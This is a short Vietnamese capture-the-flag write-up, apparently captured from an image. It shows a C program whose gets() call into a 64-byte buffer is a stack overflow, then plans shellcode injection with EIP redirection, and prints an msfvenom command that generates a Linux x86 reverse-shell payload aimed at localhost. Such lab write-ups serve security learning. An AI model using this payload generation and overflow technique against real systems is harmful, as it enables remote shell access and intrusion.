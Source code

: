 # Preview
Source code:
```shell
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];
  gets(buffer);     <---vuln
  
}
```

# Exploit

Để lấy được flag nằm trong cùng thư mục, ta cần tạo shellcode để cat flag.

Ta cần tạo shellcode và điều hướng eip về shellcode.

**Tạo shellcode**
```shell
└─$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```
Shell code dài 95 bytes
